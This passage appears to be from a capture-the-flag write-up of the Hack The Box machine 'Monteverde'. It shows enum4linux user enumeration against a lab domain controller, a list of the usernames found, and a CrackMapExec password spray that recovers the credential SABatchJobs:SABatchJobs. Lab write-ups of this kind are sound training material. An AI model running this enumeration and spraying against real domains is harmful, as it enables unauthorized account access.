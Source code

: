 Looks like we've got a domain controller here. Lets go ahead and add MEGABANK.LOCAL to `/etc/hosts`

With that done lets run enum4linux against the target in hopes we can drop some user names:

```text
┌──(ryan㉿kali)-[~/HTB/Monteverde]
└─$ enum4linux -a MEGABANK.LOCAL
```
![users.png](../assets/monteverde_assets/users.png)

Cool! Looks like we have some user names. Lets copy these to a file called users.txt:

```text
Guest
AAD_987d7f2f57d2
mhope
SABatchJobs
svc-ata
svc-bexec
svc-netapp
dgalanos
roleary
smorgan
```

After using this username list with a couple of password lists and coming up with nothing, I tried using CrackMapExec with the user.txt file in both the username and password fields and found a match:

```text
┌──(ryan㉿kali)-[~/HTB/Monteverde]
└─$ crackmapexec smb 10.10.10.172 -u users.txt -p users.txt | grep '[+]'
SMB         10.10.10.172    445    MONTEVERDE       [+] MEGABANK.LOCAL\SABatchJobs:SABatchJobs
```

Cool, we have some credentials now. Lets use these to see if we can access any shares:

![cme.png](../assets/monteverde_assets/cme.png)
